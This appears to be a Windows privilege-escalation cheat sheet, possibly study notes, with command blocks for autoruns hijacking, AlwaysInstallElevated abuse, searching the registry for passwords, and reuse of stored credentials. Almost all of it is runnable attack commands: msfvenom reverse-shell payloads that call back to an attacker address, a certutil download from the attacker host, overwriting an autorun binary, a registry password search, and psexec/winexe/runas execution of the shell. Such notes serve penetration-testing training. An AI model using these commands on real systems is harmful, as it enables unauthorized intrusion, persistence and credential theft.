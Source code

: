 
# AUTORUNS

```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
.\accesschk.exe -wvu "C:\Program Files\Autorun Program\program.exe"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o reverse.exe
copy \\<IP_ADDR>\kali\reverse.exe C:\Temp\reverse.exe
copy C:\Temp\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
rdesktop <IP_ADDR>
```

---

# ALWAYS INSTALL ELEVATED

```powershell
.\winPEAS64.exe
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f msi -o reverse.msi
certutil -urlcache -f http://<IP_ADDR>/reverse.msi reverse.msi
msiexec /quiet /qn /i C:\Temp\reverse.msi
```

---

# SEARCHING FOR PASSWORDS IN REGISTRY

```powershell
.\winPEAS64.exe windowscreds
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Sofware\Microsoft\Windows NT\CurrentVersion\winlogon"
winexe -U '<user>%<password>' //<IP_ADDR> cmd.exe
python3 /usr/share/doc/python3-impacket/examples/psexec.py <user>@<IP_ADDR> cmd.exe
```

---

# USING STORED CREDENTIALS

```powershell
cmdkey /list
runas /savecred /user:admin C:\Temp\reverse.exe
```

---

# SECURITY ACCOUNT MANAGER (SAM)
